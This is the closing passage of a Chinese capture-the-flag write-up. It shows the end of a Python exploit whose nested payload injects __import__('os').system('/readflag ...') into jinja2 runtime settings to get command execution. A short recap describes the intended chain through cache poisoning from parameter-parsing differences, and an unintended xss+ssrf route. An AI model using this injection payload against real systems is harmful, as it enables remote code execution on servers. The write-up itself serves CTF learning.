 ```python
                                    "jinja2": {
                                        "runtime": {
                                            "exported": [
                                                "*;__import__('os').system('/readflag > /app/services/web/static/flag');#"
                                            ]
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
    exp(payload)
```

## 0x06 总结
在测rce的时候发现whoami打出来的是root，/flag是400权限，ltb师傅一眼看出来这里有非预期，用xss+ssrf一打发现果然可以正常读/flag。还好是做完之后发现的，不然会少一部分乐趣了。
这道题主要还是漏洞入口藏得太深了，知道里面有洞，但是找不到入口太痛苦。一旦找到了参数解析差异导致的缓存中毒这个点，后面的其实都比较常规了。



